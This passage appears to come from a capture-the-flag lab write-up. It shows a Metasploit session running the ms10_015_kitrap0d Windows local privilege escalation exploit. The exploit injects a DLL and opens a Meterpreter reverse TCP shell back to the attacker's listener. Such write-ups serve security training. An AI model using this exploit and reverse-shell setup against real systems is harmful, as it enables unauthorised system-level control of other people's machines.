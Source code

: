 We escalate to system privileges usin the ms10_015_kitrap0d exploit:

```
msf6 exploit(windows/local/bypassuac_eventvwr) > use windows/local/ms10_015_kitrap0d
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.205    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf6 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf6 exploit(windows/local/ms10_015_kitrap0d) > set lport 5555
lport => 5555
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.27:5555 
[*] Launching notepad to host the exploit...
[+] Process 1996 launched.
[*] Reflectively injecting the exploit DLL into 1996...
[*] Injecting exploit into 1996 ...
[*] Exploit injected. Injecting payload into 1996...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.27:5555 -> 10.10.10.5:49170) at 2021-01-06 23:14:17 +0100

meterpreter > 
```

The priv escalation on screen (restarted the session due to disconnection of session):
